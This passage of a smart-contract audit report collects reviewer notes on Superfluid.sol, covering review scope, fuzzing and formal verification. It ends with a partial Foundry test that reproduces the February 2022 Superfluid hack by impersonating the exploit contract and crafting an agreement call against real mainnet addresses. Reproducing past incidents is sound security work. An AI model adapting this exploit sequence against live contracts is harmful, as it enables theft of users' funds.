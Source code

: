 ### Benjamin Samuels

I initially spent a day or two manually reviewing the key Superfluid.sol contract, followed by an attempt to set up Echidna to fuzz various invariants. Unfortunately the short duration of the audit window prevented any truly comprehensive fuzzing.

The Superfluid.sol contract encapsulates a lot of unique, complex logic which made it exceptionally challenging to manually review. The different ways that Superfluid's logic can be composed together, combined with the wide variety of behavior that can be introduced by agreements/apps produces a large space for potential behavior, drastically diminishing the effectiveness of manual audits/code review.

If there are critical vulnerabilities still existing in Superfluid, I think it's unlikely they will be discovered via manual review. If Superfluid desires to further invest in the protocol's security, I recommend pursuing one of the following options:

1. Build a comprehensive fuzzing suite using Echidna/equivalent.
2. Pursue formal verification of key logic paths.

While Superfluid does have a few fuzzing invariants implemented using Foundry, as of time of writing, Foundry's fuzzing capability is very immature compared to Echidna. I recommend porting existing invariants to Echidna or contracting an auditor to implement a new invariant suite.

### blockdev

The scope to `Superfluid.sol` is not enough for an effective security review. This contract acts a central management piece which interacts with all the other actors in the system &mdash; SuperApp, SuperAgreement, Governance. To analyze complex risks, it's important to be aware of all these contracts.

A lot of responsibility is placed on these contracts, which, in turn, places a responsibility on Governance. Governance should review each new implementation contracts carefully keeping in mind possible attacks, before changing production so that it doesn't break any security.

### datapunk

Didn't find anything as useful due to the uniqueness and complexity of this project. For fun only, I reproduced the sequence of the actual hack that happened on 2/8/2022.
```
contract ContractTest is DSTest {
    Vm vm = Vm(address(0x7109709ECfa91a80626fF3989D68f67F5b1DD12D));
    address constant exploiter_eoa = address(0x1574F7F4C9d3aCa2EbcE918e5d19d18aE853c090);
    address constant exploit_contract = address(0x32D47ba0aFfC9569298d4598f7Bf8348Ce8DA6D4); // -> 0x6177a480240d3248849f4b65e421e0b296522f21
    ISuperToken QI_proxy = ISuperToken(0xe1cA10e6a10c0F72B74dF6b7339912BaBfB1f8B5); // -> 0x6177a480240d3248849f4b65e421e0b296522f21
    address[] QI_holders = [0x5073c1535A1a238E7c7438c553F1a2BaAC366cEE, // 16818386482145059198434304
    0xe6116AA08e14afE08A9A563E9ef6cCd5b47070B7 // 2569487563094033900633960
    ];
    ISuperfluid sf_proxy = ISuperfluid(0x3E14dC1b13c488a8d5D310918780c983bD5982E7); //->0xebbe9a6688be25d058c9469ee4807e5ef192897f
    IInstantDistributionAgreementV1 IDA = IInstantDistributionAgreementV1(0xB0aABBA4B2783A72C52956CDEF62d438ecA2d7a1); // ->0x07711bb6dfbc99a1df1f2d7f57545a67519941e7

    function testExploit() public{
        vm.startPrank(exploit_contract);

        uint256 balance = QI_proxy.balanceOf(QI_holders[0]);
        emit log_named_uint("QI_Proxy:", balance);

        sf_proxy.callAgreement(
            ISuperAgreement(IDA),
            abi.encodeWithSelector(
                IInstantDistributionAgreementV1.updateSubscription.selector, // 0x232d2b58
                QI_proxy, // token
```